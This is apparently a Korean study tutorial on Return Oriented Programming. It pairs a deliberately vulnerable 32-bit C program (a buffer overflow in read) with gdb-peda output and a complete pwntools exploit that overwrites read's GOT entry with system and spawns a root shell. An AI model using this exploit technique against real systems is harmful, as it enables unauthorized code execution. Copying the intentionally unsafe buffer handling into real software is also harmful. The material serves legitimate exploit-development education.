 ## **Concept**

NXbit와 Code signing과 같은 보안 기능이 있는 상태에서 코드 실행 가능하게 해주는 기술이다.  
RTL + Gadgets(해당 프로그램이 사용하는 메모리에 있는 기계어)  
Gadgets은 일반적으로 ret로 끝나며, 기존 프로그램 또는 공유 라이브러리 코드 내 서브 루틴에 존재.

## **Proof of Concept**

```c
// Vuln Code
// gcc -m32 -fno-stack-protector -o rop rop.c
#include <stdio.h>
#include <unistd.h>
  
void vuln(){
    char buf[50];
    read(0, buf, 256);
}
 
void main(){
    write(1,"Hello ROP\n",10);
    vuln();
}
```

256자를 Read하므로 Buffer Overflow가 발생한다.

### **Exploit Mehtod**
1. read 함수를 통해 "/bin/sh" 명령을 쓰기 가능한 메모리에 저장
1. write 함수를 이용해 read 함수의 .got 영역에 저장된 값 출력
1. read 함수를 이용해 read 함수의 .got 영역에 system 함수 주소를 덮어씀
1. read 함수 호출 - read .got 영역에 system 주소 저장되어 있기 떄문에 system 함수가 호출

```c
read(0,writableArea,len(str(binsh)))
write(1,read_got,len(str(read_got)))
read(0,read_got,len(str(read_got)))
system(writableArea)
```

### **Writable Area**

```
gdb-peda$ shell cat /proc/26912/maps
08048000-08049000 r-xp 00000000 08:01 131514     /home/pwner/test/rop
08049000-0804a000 r--p 00000000 08:01 131514     /home/pwner/test/rop
0804a000-0804b000 rw-p 00001000 08:01 131514     /home/pwner/test/rop  <--- 변하지 않는 writable 영역
b7d43000-b7d44000 rw-p 00000000 00:00 0 
b7d44000-b7ef4000 r-xp 00000000 08:01 393587     /lib/i386-linux-gnu/libc-2.23.so
b7ef4000-b7ef6000 r--p 001af000 08:01 393587     /lib/i386-linux-gnu/libc-2.23.so
b7ef6000-b7ef7000 rw-p 001b1000 08:01 393587     /lib/i386-linux-gnu/libc-2.23.so
b7ef7000-b7efa000 rw-p 00000000 00:00 0 
b7f10000-b7f11000 rw-p 00000000 00:00 0 
b7f11000-b7f14000 r--p 00000000 00:00 0          [vvar]
b7f14000-b7f16000 r-xp 00000000 00:00 0          [vdso]
b7f16000-b7f39000 r-xp 00000000 08:01 393559     /lib/i386-linux-gnu/ld-2.23.so
b7f39000-b7f3a000 r--p 00022000 08:01 393559     /lib/i386-linux-gnu/ld-2.23.so
b7f3a000-b7f3b000 rw-p 00023000 08:01 393559     /lib/i386-linux-gnu/ld-2.23.so
bfae5000-bfb06000 rw-p 00000000 00:00 0          [stack]
```

### **Sections**

```
gdb-peda$ shell objdump -h rop

rop:     file format elf32-i386

Sections:
Idx Name          Size      VMA       LMA       File off  Algn
  0 .interp       00000013  08048154  08048154  00000154  2**0
                  CONTENTS, ALLOC, LOAD, READONLY, DATA
                          >> snip... <<
                  CONTENTS, ALLOC, LOAD, DATA
 22 .got          00000004  08049ffc  08049ffc  00000ffc  2**2  
                  CONTENTS, ALLOC, LOAD, DATA
 23 .got.plt      00000018  0804a000  0804a000  00001000  2**2 <-- .got.plt
                  CONTENTS, ALLOC, LOAD, DATA
 24 .data         00000008  0804a018  0804a018  00001018  2**2 <-- .data
                  CONTENTS, ALLOC, LOAD, DATA
 25 .bss          00000004  0804a020  0804a020  00001020  2**0 <-- .bss
                  ALLOC
 26 .comment      00000035  00000000  00000000  00001020  2**0
                  CONTENTS, READONLY
```

### **Gadgets**

```
gdb-peda$ ropgadget
ret = 0x80482d2
popret = 0x80482e9
pop2ret = 0x80484ea
pop3ret = 0x80484e9
pop4ret = 0x80484e8
addesp_12 = 0x80482e6
addesp_16 = 0x80483a5
```

### **Symbols**

```
gdb-peda$ elfsymbol read
Detail symbol info
read@reloc = 0
read@plt = 0x8048300
read@got = 0x804a00c

gdb-peda$ elfsymbol write
Detail symbol info
write@reloc = 0x10
write@plt = 0x8048320
write@got = 0x804a014
```

### **offset**

```
gdb-peda$ p read
$1 = {<text variable, no debug info>} 0xb7e90b00 <read>

gdb-peda$ p system
$3 = {<text variable, no debug info>} 0xb7df5da0 <__libc_system>

gdb-peda$ p 0xb7e90b00-0xb7df5da0
$4 = 0x9ad60
```

## **Exploit Code**
```python
# Exploit Code
from pwn import *
from struct import *

binsh = "/bin/sh"
binary = ELF("./rop")
libc = ELF("/lib/i386-linux-gnu/libc-2.23.so")
writableArea = 0x0804a050
read_got = binary.got['read']
read_plt = binary.plt['read']
read_system_offset = libc.symbols['read'] - libc.symbols['system']

rop = ROP(binary)

rop.read(0,writableArea,len(str(binsh)))
rop.write(1,read_got,4)
rop.read(0,read_got,len(str(read_got)))
rop.raw(read_plt)
rop.raw(0xaaaaaaaa)
rop.raw(writableArea)

payload = "A"*62 + str(rop)

p = process('./rop')
context.log_level = 'debug'

print(p.recvn(10))
p.send(payload+'\n')
p.send(binsh)
read = u32(p.recvn(4))
system_addr = read - read_system_offset

rop = ROP(binary)
rop.raw(system_addr)
p.send(str(rop))

p.interactive()
```

## **Exploit**
```
[DEBUG] Received 0x27 bytes:
    'uid=0(root) gid=0(root) groups=0(root)n'
uid=0(root) gid=0(root) groups=0(root)
$ pwd
[DEBUG] Sent 0x4 bytes:
    'pwdn'
[DEBUG] Received 0x11 bytes:
    '/home/pwner/testn'
/home/pwner/test
```

**Refereces**  
<https://www.lazenca.net/display/TEC/01.ROP%28Return+Oriented+Programming%29-x86>

